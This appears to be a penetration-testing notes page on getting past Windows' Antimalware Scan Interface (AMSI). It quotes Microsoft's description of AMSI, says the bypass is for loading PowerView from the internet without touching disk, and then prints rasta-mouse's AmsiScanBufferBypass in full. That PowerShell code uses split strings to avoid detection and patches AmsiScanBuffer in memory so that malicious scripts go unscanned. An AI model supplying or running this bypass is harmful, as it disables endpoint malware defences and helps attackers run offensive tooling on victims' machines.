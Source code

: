 # Antimalware Scan Interface (AMSI)
Source: [Antimalware Scan Interface (AMSI)](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)

When trying to invoke expression and load, for example, `PowerView.ps1` directly from the internet in order to not leave stuff on the disk you'll most properly run in to being blocked due to AMSI. This can be bypassed by utilizing rasta-mouses amsi-bypass which patches the memory to allow execution of suspicious commands.

## Description AMSI
```text
The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard
that allows your applications and services to integrate with any antimalware
product that's present on a machine. AMSI provides enhanced malware protection
for your end-users and their data, applications, and workloads.

AMSI is agnostic of antimalware vendor; it's designed to allow for the most
common malware scanning and protection techniques provided by today's
antimalware products that can be integrated into applications. It supports a
calling structure allowing for file and memory or stream scanning, content
source URL/IP reputation checks, and other techniques.

AMSI also supports the notion of a session so that antimalware vendors can
correlate different scan requests. For instance, the different fragments of a
malicious payload can be associated to reach a more informed decision, which
would be much harder to reach just by looking at those fragments in isolation
```

# Example
![AMSI bypass - Rasta-mouse](amsi_bypass.png "AMSI bypass - Rasta-mouse")

# AMSI Bypass (rasta-mouse)
Source: [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
